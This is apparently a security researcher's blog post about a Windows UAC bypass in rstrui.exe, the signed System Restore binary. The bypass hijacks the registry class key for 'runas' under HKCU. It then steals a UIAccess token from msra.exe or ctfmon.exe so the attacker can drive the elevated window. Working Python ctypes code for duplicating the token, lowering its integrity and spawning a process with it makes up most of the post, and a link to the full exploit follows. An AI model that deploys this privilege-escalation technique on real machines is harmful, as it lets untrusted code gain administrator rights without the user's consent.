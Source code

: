 ```yaml
---
layout: post
title: RESEARCHING RSTRUI PROCESS
vimeoId: 344967402
---
```


Rstrui is a signed Microsoft executable, which handles the system restore features. This executable has "autoElevate" property set to true in the manifest which
means it will run with high integrity level. While playing around in [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from
Sysinternals, I found out that rstrui.exe accepts command line arguments, I focused on the "/RUNONCE" argument.

While monitoring the activity, I couldn't find any vulnerabilities at first. The UI starts up and fails, because I haven't configured the
system restore feature on the test machine. Pressed the left button "Run System Restore", see picture below. 

![_config.yml]({{ site.baseurl }}/images/rstrui_ui.JPG)

And checked back at ProcessMonitor, saw that it suffers from a class hijacking vulnerability, see picture below.

![_config.yml]({{ site.baseurl }}/images/rstrui_procmon.JPG)

If adding path to another executable in the {Default} value at "HKCU\Software\Classes\exefile\shell\runas\command\" we can trick rstrui to elevate another executable once
pressing "Run System Restore" button.

{% include vimeo.html id=page.vimeoId %}

One problem is that we cannot control this UI from a Medium IL process. In order to navigate the UI from a Medium IL process, we need to obtain a UIAccess token.

The first step is to either create or find a process with UIAccess flag, in this example we use "msra.exe" but could use "ctfmon.exe" which is running by default,
in that case we don't need to create a new process.
```python
shinfo = ShellExecInfo()
shinfo.cbSize = ctypes.sizeof(shinfo)
shinfo.fMask = 0x00000040
shinfo.lpFile = "msra.exe"
shinfo.nShow = 0
shinfo.lpParameters = None

with disable_fsr():
	if ctypes.windll.shell32.ShellExecuteExW(ctypes.byref(shinfo)):
		print "[+] Created host process PID: {pid} using ShellExecuteExW".format(pid=shinfo.hProcess)
	else:
		print "[-] Unable to create host process using ShellExecuteExW"
		return False
```

Open the token with TOKEN_DUPLICATE and TOKEN_QUERY access
```python
token = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtOpenProcessToken(shinfo.hProcess, (TOKEN_DUPLICATE | TOKEN_QUERY),
					ctypes.byref(token)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to open process token using NtOpenProcessToken"
	return False
else:
	print "[+] Opened process token using NtOpenProcessToken: {token}".format(token=token)
```

Duplicate primary token with TOKEN_ALL_ACCESS access
```python
dtoken = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtDuplicateToken(token, TOKEN_ALL_ACCESS, None, False,
					TOKEN_TYPE.TokenPrimary, ctypes.byref(dtoken)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to duplicate token using NtDuplicateToken"
	return False
else:
	print "[+] Duplicated token using NtDuplicateToken: {dtoken}".format(dtoken=dtoken)
```

Initialize Medium SID and lower the duplicated token from Medium+ to Medium integrity
```python
mlAuthority = SID_IDENTIFIER_AUTHORITY((0, 0, 0, 0, 0, 16))
pIntegritySid = ctypes.c_void_p()

if ctypes.windll.ntdll.RtlAllocateAndInitializeSid(ctypes.byref(mlAuthority), 1, IntegrityLevel.MEDIUM_RID,
					0, 0, 0, 0, 0, 0, 0, ctypes.byref(pIntegritySid)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to Initialize Medium SID using RtlAllocateAndInitializeSid"
	return False
else:
	print "[+] Initialized Medium SID using RtlAllocateAndInitializeSid"

saa = SID_AND_ATTRIBUTES()
saa.Attributes = GroupAttributes.SE_GROUP_INTEGRITY
saa.Sid = pIntegritySid

tml = TOKEN_MANDATORY_LABEL()
tml.Label = saa

if ctypes.windll.ntdll.NtSetInformationToken(dtoken, TOKEN_INFORMATION_CLASS.TokenIntegrityLevel,
					ctypes.byref(tml), ctypes.sizeof(tml)) == ctypes.c_ulong(0xC0000001):													
	print "[-] Unable to lower duplicated token IL from Medium+ to Medium using NtSetInformationToken"
	return False
else:
	print "[+] Lowered duplicated token IL from Medium+ to Medium using NtSetInformationToken"
```

Using CreateProcessAsUserA we can create a new process using the duplicated token, which has the UIAccess flag.
This process can control a High IL process with SendKeys or keyboard events.
```python
lpStartupInfo = STARTUPINFO()
lpStartupInfo.cb = ctypes.sizeof(lpStartupInfo)
lpStartupInfo.dwFlags = 0x00000001
lpStartupInfo.wShowWindow = 5
lpProcessInformation = PROCESS_INFORMATION()
lpApplicationName = "notepad.exe" # Path to executable that controls High IL process

if not ctypes.windll.advapi32.CreateProcessAsUserA(dtoken, None, lpApplicationName, None, None, False,
						(0x04000000 | 0x00000010), None, None, ctypes.byref(lpStartupInfo), ctypes.byref(lpProcessInformation)):
	print "[-] Unable to create process using CreateProcessAsUserA"
	return False
else:
	print "[+] Created process PID: {pid} using CreateProcessAsUserA".format(pid=lpProcessInformation.dwProcessId)
```

Full code can be found here, with payload (uihack.py) example to send keyboard events to High IL processes.
* [https://github.com/rootm0s/UUB](https://github.com/rootm0s/UUB)
